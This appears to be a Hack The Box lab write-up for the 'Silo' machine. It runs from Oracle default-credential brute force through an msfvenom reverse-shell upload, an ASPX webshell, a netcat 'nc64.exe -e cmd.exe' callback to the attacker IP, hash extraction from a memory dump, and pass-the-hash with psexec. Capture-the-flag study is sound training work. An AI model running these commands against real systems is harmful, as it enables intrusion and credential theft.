

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/silo-medium
---

# ✅ Silo (Medium)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Default Credentials

**System Vulnerable:** 10.10.10.82

**Vulnerability Explanation:** The machine is using default credential which could allow us to upload reverse shell and gain initial foothold on the machine.

**Privilege Escalation Vulnerability:** Not restricted access to sensitive file

**Vulnerability Fix:** Implement strong password policy and restricted permission

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.82                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-14 08:17 EST
Nmap scan report for 10.10.10.82
Host is up (0.046s latency).
Not shown: 65520 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-11-14T13:19:52
|_  start_date: 2021-11-14T13:16:29
```

**Port 80** http Microsoft-IIS/8.5

**Port 135,49152,49153,49154,49155,49160,41961, 41962** running Microsoft Window RPC

**Port 139,445** running microsoft SMB

**Port 1521, 49159** running Oracle TNS listener

**Port 5985, 47001** running Microsoft-HTTPAPI/2.0

## Enumeration

### Port 80 Microsoft-IIS/8.5

I will go through port 80 first, it just displays a default webpage of IIS. For gobuster result also didn't find any interest. Let Move On.

.png>)

### Port 139,445 SMB

We didn't see anything interesting too.

```
└─$ smbclient -L 10.10.10.82 
Enter WORKGROUP\pwned's password: 
session setup failed: NT_STATUS_ACCESS_DENIED

└─$ smbclient -L 10.10.10.82 -N                                                                                                                
session setup failed: NT_STATUS_ACCESS_DENIED
                                                                                                                                                                                              
└─$ smbmap -H 10.10.10.82                                                                       
[!] Authentication error on 10.10.10.82
```

### Port 1521,49159 Oracle TNS Listener

There is a [blackhat presentation](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) about the exploit.

First thing we need to identify SID with the help of tool **odat** and **sidguesser** module.

```
└─$ odat sidguesser -s 10.10.10.82    

[1] (10.10.10.82:1521): Searching valid SIDs                                                                                                                                                  
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...         ##############################################################################################################################  | ETA:  00:00:00 
[+] 'XEXDB' is a valid SID. Continue...      
100% |#######################################################################################################################################################################| Time: 00:01:10 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |#######################################################################################################################################################################| Time: 00:00:02 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid SID. Continue...         #############################################################################################################                   | ETA:  00:00:06 
100% |#######################################################################################################################################################################| Time: 00:00:59 
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB
```

Next step, we need to guess or brute force for username / password with SID we found. Let copy the wordlist from metasploit and add / in between username and password.

```
└─$ cp /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt .

vi oracle_default_userpass.txt
:%s/ /\//g
```

We found valid credential **scott / tiger**.

```
└─$ /usr/share/odat/odat.py passwordguesser -s 10.10.10.82 -p1521 -d XE --accounts-file oracle_default_userpass.txt                                                                       2 ⚙

[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521                                                                                                         
09:40:32 WARNING -: The line 'jl/jl/\n' is not loaded in credentials list: ['jl', 'jl', '']
09:40:32 WARNING -: The line 'ose$http$admin/invalid/password\n' is not loaded in credentials list: ['ose$http$admin', 'invalid', 'password']
The login cdemo82 has already been tested at least once. What do you want to do:                                                                                             | ETA:  00:03:26 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c  
[+] Valid credentials found: scott/tiger. Continue...                                     ############################################################################       | ETA:  00:00:11 
100% |#######################################################################################################################################################################| Time: 00:04:45 
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger       
```

Let connect to the oracle with the help of tool **sqlplus**. As we can see we have least privilege.

```
└─$ sqlplus scott/tiger@10.10.10.82:1521/XE                                                                                                                                               2 ⚙

SQL*Plus: Release 19.0.0.0.0 - Production on Sun Nov 14 10:00:49 2021
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO
```

Let connect again with as **sysdba** which mean as sudo in oracle. We can see, with sysdba, we have a lot of information.

```
└─$ sqlplus scott/tiger@10.10.10.82:1521/XE as sysdba                                                                                                                                     2 ⚙

SQL*Plus: Release 19.0.0.0.0 - Production on Sun Nov 14 10:01:12 2021
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
SYS                            EXP_FULL_DATABASE              YES YES NO
SYS                            GATHER_SYSTEM_STATISTICS       YES YES NO
SYS                            HS_ADMIN_EXECUTE_ROLE          YES YES NO
SYS                            HS_ADMIN_ROLE                  YES YES NO
SYS                            HS_ADMIN_SELECT_ROLE           YES YES NO
SYS                            IMP_FULL_DATABASE              YES YES NO
SYS                            LOGSTDBY_ADMINISTRATOR         YES YES NO
SYS                            OEM_ADVISOR                    YES YES NO
SYS                            OEM_MONITOR                    YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            PLUSTRACE                      YES YES NO
SYS                            RECOVERY_CATALOG_OWNER         YES YES NO
SYS                            RESOURCE                       YES YES NO
SYS                            SCHEDULER_ADMIN                YES YES NO
SYS                            SELECT_CATALOG_ROLE            YES YES NO
SYS                            XDBADMIN                       YES YES NO
SYS                            XDB_SET_INVOKER                YES YES NO
SYS                            XDB_WEBSERVICES                YES YES NO
SYS                            XDB_WEBSERVICES_OVER_HTTP      YES YES NO
SYS                            XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

32 rows selected.
```

## #1 Exploitation (No Priv-Esc)

Let generate our reverse shell payload with **exe** extension.

```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f exe > shell.exe                                                                                               2 ⚙
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2717 bytes
```

Let start our netcat listener on port 4444.

```
nc -lvp 4444
```

Try to upload our payload to the machine. We have least privilege. Let try with sysdba.

```
└─$ odat utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --putFile C:\\inetpub\\wwwroot shell.exe shell.exe                                                                        2 ⚙

[1] (10.10.10.82:1521): Put the shell.exe local file in the C:\inetpub\wwwroot folder like shell.exe on the 10.10.10.82 server                                                                
[-] Impossible to put the shell.exe file: `ORA-01031: insufficient privileges`
```

```
└─$ /usr/share/odat/odat.py utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba -d XE --putFile C:\\inetpub\\wwwroot shell.exe shell.exe                                        1 ⨯ 2 ⚙

[1] (10.10.10.82:1521): Put the shell.exe local file in the C:\inetpub\wwwroot folder like shell.exe on the 10.10.10.82 server                                                                
[+] The shell.exe file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the shell.exe file
```

Once, we have upload, we cannot execute it via web browser. We can use module **externaltable**.

```
└─$ /usr/share/odat/odat.py externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --exec C:\\inetpub\\wwwroot shell.exe --sysdba                                               2 ⨯ 2 ⚙

[1] (10.10.10.82:1521): Execute the shell.exe command stored in the C:\inetpub\wwwroot path                                                                                                   
```

We are now the authority system.

.png>)

## #2 Exploitation (Priv-Esc)

### Shell as service user

Let upload the file command execution to the machine.

```
└─$ cp /usr/share/webshells/aspx/cmdasp.aspx .
```

```
└─$ /usr/share/odat/odat.py utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba -d XE --putFile C:\\inetpub\\wwwroot cmdasp.aspx cmdasp.aspx                                  102 ⨯ 1 ⚙

[1] (10.10.10.82:1521): Put the cmdasp.aspx local file in the C:\inetpub\wwwroot folder like cmdasp.aspx on the 10.10.10.82 server                                                            
[+] The cmdasp.aspx file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the cmdasp.aspx file
```

.png>)

As we have checked the system is x64 architecture, let start SMB Server to share file netcat.

```
impacket-smbserver share .
```

Start our netcat listener on port 4444.

```
nc -lvp 4444
```

Try to execute netcat reverse shell to our machine.

```
\\10.10.14.31\share\nc64.exe -e cmd.exe 10.10.14.31 4444
```

.png>)

.png>)

### Shell as Authority System

Going through user Phineas, we found file Oracle issue.txt which contain the link to dropbox and password.&#x20;

On our **terminal screen** could not read the password properly.

.png>)

Let download it to our machine and open it with notepad or gedit. Now we can see it properly.

.png>)

Follow through the link and it's valid. Enter the password we found a zip file to download.

.png>)

.png>)

Let download it to our machine and unzip it. We see there is a file with dmp extension.

```
└─$ unzip SILO-20180105-221806.zip 
Archive:  SILO-20180105-221806.zip
  inflating: SILO-20180105-221806.dmp
  
└─$ file SILO-20180105-221806.dmp 
SILO-20180105-221806.dmp: MS Windows 64bit crash dump, full dump, 261996 pages
```

**DMP** file contains data dumped from a program's memory space. They are often created when a program has an error or crashes.

There is a tool called Volatility, we can download from [here](https://www.volatilityfoundation.org/releases). Volatility is an open-source memory forensics framework for incident response and malware analysis.

First enumerating on OS. We found it's running on Window server 2012 and x64.

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 SILO
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-00115-23036-AA976
Original Install Date:     12/31/2017, 11:01:23 PM
System Boot Time:          11/14/2021, 3:49:15 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC

```

Let run the tool volatility `--info` flag to see the profiles.

```
└─$ ./volatility --info                                                                                                                                                                   1 ⨯
Volatility Foundation Volatility Framework 2.6

Profiles
--------
Win2012R2x64          - A Profile for Windows Server 2012 R2 x64
Win2012R2x64_18340    - A Profile for Windows Server 2012 R2 x64 (6.3.9600.18340 / 2016-05-13)
Win2012x64            - A Profile for Windows Server 2012 x64
```

As we can see the profiles name **Win2012R2x64**. Let run with plugin **kdbgscan**.

```
└─$ ./volatility -f ~/Desktop/HTB/silo/SILO-20180105-221806.dmp --profile Win2012R2x64 hivelist
Volatility Foundation Volatility Framework 2.6
Virtual            Physical           Name
------------------ ------------------ ----
0xffffc0000100a000 0x000000000d40e000 \??\C:\Users\Administrator\AppData\Local\Microsoft\Windows\UsrClass.dat
0xffffc000011fb000 0x0000000034570000 \SystemRoot\System32\config\DRIVERS
0xffffc00001600000 0x000000003327b000 \??\C:\Windows\AppCompat\Programs\Amcache.hve
0xffffc0000001e000 0x0000000000b65000 [no name]
0xffffc00000028000 0x0000000000a70000 \REGISTRY\MACHINE\SYSTEM
0xffffc00000052000 0x000000001a25b000 \REGISTRY\MACHINE\HARDWARE
0xffffc000004de000 0x0000000024cf8000 \Device\HarddiskVolume1\Boot\BCD
0xffffc00000103000 0x000000003205d000 \SystemRoot\System32\Config\SOFTWARE
0xffffc00002c43000 0x0000000028ecb000 \SystemRoot\System32\Config\DEFAULT
0xffffc000061a3000 0x0000000027532000 \SystemRoot\System32\Config\SECURITY
0xffffc00000619000 0x0000000026cc5000 \SystemRoot\System32\Config\SAM
0xffffc0000060d000 0x0000000026c93000 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xffffc000006cf000 0x000000002688f000 \SystemRoot\System32\Config\BBI
0xffffc000007e7000 0x00000000259a8000 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0xffffc00000fed000 0x000000000d67f000 \??\C:\Users\Administrator\ntuser.dat

hivelist                   - Print list of registry hives.
```

Now we have the offsets for the registry of SYSTEM and SAM. Let use the plugin **hashdump** to extract hash from the machine.

```
└─$ ./volatility hashdump -h  

Options:
  -y SYS_OFFSET, --sys-offset=SYS_OFFSET
                        SYSTEM hive offset (virtual)
  -s SAM_OFFSET, --sam-offset=SAM_OFFSET
                        SAM hive offset (virtual)
```

```
└─$ ./volatility -f ~/Desktop/HTB/silo/SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000 
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

Now we got the hash of all the users on the machine.

```
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 administrator@10.10.10.82                                                                 130 ⨯
Impacket v0.9.24.dev1+20210706.140217.6da655ca - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.82.....
[*] Found writable share ADMIN$
[*] Uploading file qTeibVEJ.exe
[*] Opening SVCManager on 10.10.10.82.....
[*] Creating service rmGc on 10.10.10.82.....
[*] Starting service rmGc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>echo %username%
SILO$
```
